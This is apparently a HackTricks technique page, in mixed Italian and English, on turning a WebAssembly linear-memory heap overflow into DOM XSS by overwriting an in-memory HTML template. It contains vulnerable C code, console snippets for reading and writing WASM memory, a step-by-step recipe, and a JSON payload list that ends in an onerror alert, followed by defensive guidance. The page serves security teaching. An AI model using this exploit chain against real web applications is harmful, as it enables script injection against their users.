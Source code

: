 # WebAssembly linear memory corruption to DOM XSS (template overwrite)

{{#include ../../banners/hacktricks-training.md}}

Questa tecnica mostra come un bug di corruzione della memoria all'interno di un modulo WebAssembly (WASM) compilato con Emscripten possa essere trasformato in un DOM XSS affidabile anche quando l'input è sanitizzato. Il pivot consiste nel corrompere costanti scrivibili nella WASM linear memory (es. HTML format templates) invece di attaccare la stringa di origine sanitizzata.

Idea chiave: nel modello WebAssembly il codice risiede in pagine eseguibili non scrivibili, mentre i dati del modulo (heap/stack/globals/"constants") vivono in un'unica memoria lineare piatta (pagine da 64KB) che è scrivibile dal modulo. Se codice C/C++ buggy scrive fuori dai limiti, è possibile sovrascrivere oggetti adiacenti e persino stringhe costanti incorporate nella memoria lineare. Quando una tale costante viene poi usata per costruire HTML per l'inserimento tramite un DOM sink, è possibile trasformare input sanitizzato in JavaScript eseguibile.

Modello di minaccia e precondizioni
- Web app usa Emscripten glue (Module.cwrap) per chiamare un modulo WASM.
- Lo stato dell'applicazione risiede nella WASM linear memory (es. C structs con puntatori/lengths a user buffers).
- L'input sanitizer codifica i metacaratteri prima della memorizzazione, ma la successiva renderizzazione costruisce HTML usando una format string memorizzata nella WASM linear memory.
- Esiste una primitive di corruzione della memoria lineare (es. heap overflow, UAF, o memcpy non controllato).

Modello di dati vulnerabile minimo (esempio)
```c
typedef struct msg {
char *msg_data;       // pointer to message bytes
size_t msg_data_len;  // length after sanitization
int msg_time;         // timestamp
int msg_status;       // flags
} msg;

typedef struct stuff {
msg *mess;            // dynamic array of msg
size_t size;          // used
size_t capacity;      // allocated
} stuff; // global chat state in linear memory
```
Pattern logico vulnerabile
- addMsg(): alloca un nuovo buffer dimensionato sull'input sanitizzato e aggiunge un msg a s.mess, raddoppiando la capacità con realloc quando necessario.
- editMsg(): riesegue la sanitizzazione ed esegue memcpy dei nuovi byte nel buffer esistente senza assicurarsi che la nuova lunghezza ≤ la vecchia allocazione → intra-linear-memory heap overflow.
- populateMsgHTML(): formatta il testo sanitizzato con uno stub preconfezionato come "<article><p>%.*s</p></article>" che risiede in linear memory. L'HTML restituito finisce in un DOM sink (es., innerHTML).

Allocator grooming with realloc()
```c
int add_msg_to_stuff(stuff *s, msg new_msg) {
if (s->size >= s->capacity) {
s->capacity *= 2;
s->mess = (msg *)realloc(s->mess, s->capacity * sizeof(msg));
if (s->mess == NULL) exit(1);
}
s->mess[s->size++] = new_msg;
return s->size - 1;
}
```
- Invia sufficienti messaggi per superare la capacità iniziale. Dopo l'espansione, realloc() spesso posiziona s->mess immediatamente dopo l'ultimo user buffer in linear memory.
- Overflow the last message via editMsg() per sovrascrivere campi dentro s->mess (e.g., overwrite msg_data pointers) → riscrittura arbitraria di puntatori nella linear memory per dati poi renderizzati.

Exploit pivot: sovrascrivere il HTML template (sink) invece della sorgente sanitizzata
- La sanitizzazione protegge l'input, non i sink. Trova il formato stub usato da populateMsgHTML(), e.g.:
- "<article><p>%.*s</p></article>" → change to "<img src=1      onerror=%.*s>"
- Localizza il stub in modo deterministico scansionando la linear memory; è una stringa di byte semplice all'interno di Module.HEAPU8.
- Dopo aver sovrascritto il stub, il contenuto del messaggio sanitizzato diventa il JavaScript handler per onerror, quindi aggiungere un nuovo messaggio con testo come alert(1337) produce <img src=1 onerror=alert(1337)> ed esegue immediatamente nel DOM.

Chrome DevTools workflow (Emscripten glue)
- Interrompi al primo Module.cwrap call nel JS glue e entra nel wasm call site per catturare gli argomenti puntatore (offset numerici nella linear memory).
- Usa typed views come Module.HEAPU8 per leggere/scrivere la memoria WASM dalla console.
- Snippet di aiuto:
```javascript
function writeBytes(ptr, byteArray){
if(!Array.isArray(byteArray)) throw new Error("byteArray must be an array of numbers");
for(let i=0;i<byteArray.length;i++){
const byte = byteArray[i];
if(typeof byte!=="number"||byte<0||byte>255) throw new Error(`Invalid byte at index ${i}: ${byte}`);
HEAPU8[ptr+i]=byte;
}
}
function readBytes(ptr,len){ return Array.from(HEAPU8.subarray(ptr,ptr+len)); }
function readBytesAsChars(ptr,len){
const bytes=HEAPU8.subarray(ptr,ptr+len);
return Array.from(bytes).map(b=>(b>=32&&b<=126)?String.fromCharCode(b):'.').join('');
}
function searchWasmMemory(str){
const mem=Module.HEAPU8, pat=new TextEncoder().encode(str);
for(let i=0;i<mem.length-pat.length;i++){
let ok=true; for(let j=0;j<pat.length;j++){ if(mem[i+j]!==pat[j]){ ok=false; break; } }
if(ok) console.log(`Found "${str}" at memory address:`, i);
}
console.log(`"${str}" not found in memory`);
return -1;
}
const a = bytes => bytes.reduce((acc, b, i) => acc + (b << (8*i)), 0); // little-endian bytes -> int
```
End-to-end exploitation recipe
1) Groom: aggiungi N piccoli messaggi per provocare realloc(). Ensure s->mess is adjacent to a user buffer.
2) Overflow: chiama editMsg() sull'ultimo messaggio con un payload più lungo per sovrascrivere una voce in s->mess, impostando msg_data del messaggio 0 per puntare a (stub_addr + 1). The +1 salta il '<' iniziale per mantenere l'allineamento del tag intatto durante la modifica successiva.
3) Template rewrite: modifica il messaggio 0 in modo che i suoi byte sovrascrivano il template con: "img src=1      onerror=%.*s ".
4) Trigger XSS: aggiungi un nuovo messaggio il cui contenuto sanificato è JavaScript, e.g., alert(1337). Rendering emette <img src=1 onerror=alert(1337)> ed esegue.

Example action list to serialize and place in ?s= (Base64-encode with btoa before use)
```json
[
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"edit","msgId":10,"content":"aaaaaaaaaaaaaaaa.\u0000\u0001\u0000\u0050","time":1756885686080},
{"action":"edit","msgId":0,"content":"img src=1      onerror=%.*s ","time":1756885686080},
{"action":"add","content":"alert(1337)","time":1756840476392}
]
```
Perché questo bypass funziona
- WASM impedisce l'esecuzione di codice dalla linear memory, ma i dati costanti dentro la linear memory sono scrivibili se la logica del programma è buggy.
- The sanitizer only protects the source string; corrompendo il sink (il HTML template), l'input sanitized diventa il valore dell'handler JS e viene eseguito quando inserito nel DOM.
- L'adiacenza causata da realloc() insieme a memcpy non verificato nei flow di edit permette la corruzione di puntatori per reindirizzare le scritture a indirizzi scelti dall'attaccante all'interno della linear memory.

Generalization and other attack surface
- Qualsiasi in-memory HTML template, JSON skeleton o URL pattern incorporato nella linear memory può essere preso di mira per cambiare come i dati sanitizzati vengono interpretati a valle.
- Altri comuni pitfall di WASM: out-of-bounds writes/reads nella linear memory, UAF su heap objects, uso improprio della function-table con unchecked indirect call indices e mismatch nella glue JS↔WASM.

Defensive guidance
- Nei percorsi di edit, verificare new length ≤ capacity; ridimensionare i buffer prima della copia (realloc a new_len) oppure usare API con limite di dimensione (snprintf/strlcpy) e tracciare la capacity.
- Tenere immutable templates fuori dalla writable linear memory o verificarne l'integrità prima dell'uso.
- Trattare i confini JS↔WASM come non affidabili: validare pointer ranges/lengths, fuzzare le interfacce esportate e limitare la crescita della memoria.
- Sanitize at the sink: evitare di costruire HTML in WASM; preferire safe DOM APIs rispetto a innerHTML-style templating.
- Evitare di fidarsi dello stato incorporato nelle URL per flussi privilegiati.

## References
- [Pwning WebAssembly: Bypassing XSS Filters in the WASM Sandbox](https://zoozoo-sec.github.io/blogs/PwningWasm-BreakingXssFilters/)
- [V8: Wasm Compilation Pipeline](https://v8.dev/docs/wasm-compilation-pipeline)
- [V8: Liftoff (baseline compiler)](https://v8.dev/blog/liftoff)
- [Debugging WebAssembly in Chrome DevTools (YouTube)](https://www.youtube.com/watch?v=BTLLPnW4t5s&t)
- [SSD: Intro to Chrome exploitation (WASM edition)](https://ssd-disclosure.com/an-introduction-to-chrome-exploitation-webassembly-edition/)

{{#include ../../banners/hacktricks-training.md}}

